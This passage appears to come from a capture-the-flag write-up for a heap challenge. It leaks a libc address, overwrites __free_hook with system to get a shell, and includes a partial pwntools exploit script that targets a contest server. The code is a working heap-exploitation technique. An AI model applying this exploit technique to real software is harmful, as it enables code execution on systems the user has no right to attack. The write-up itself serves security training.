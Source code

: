 ### Step 3: Leak libc address
Then, we padding the first chunk to leak and get the libc_base address
```python=
view(0)
p.recvuntil("A"*0x20)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x1ebbe0

info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
info(f"free_hook: {hex(free_hook)}")
```
### Step 4: Get shell
The last step is edit the first to write __free_hook to victim chunk and edit the victim with system to get shell
```python=
payload = p64(free_hook) * 24
edit(0, payload)

edit(2, p64(system))
remove(5)
```

Full exploit script:
```python=
from pwn import *

TARGET = './heap'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 28359
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF('./libc-2.31.so')
else:
    p = process(TARGET, env={"LD_PRELOAD": "./libc-2.31.so"})
    libc = elf.libc
    gdbscript = '''
    c
    heap chunks
    heap bins'''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#---

def add(size, data):
    p.sendlineafter("$", "1")
    p.sendlineafter("Enter the message size for the user :", str(size))
    p.sendafter("Input message content >>", data)
def view(idx):
    p.sendlineafter("$", "2")
    p.sendlineafter("Want to check the message of which user?", str(idx))
def edit(idx, data):
    p.sendlineafter("$", "3")
    p.sendlineafter("Which user?", str(idx))
    p.sendafter("Input message content >>", data)
def remove(idx):
    p.sendlineafter("$", "4")
    p.sendlineafter("Delete which user?", str(idx))

```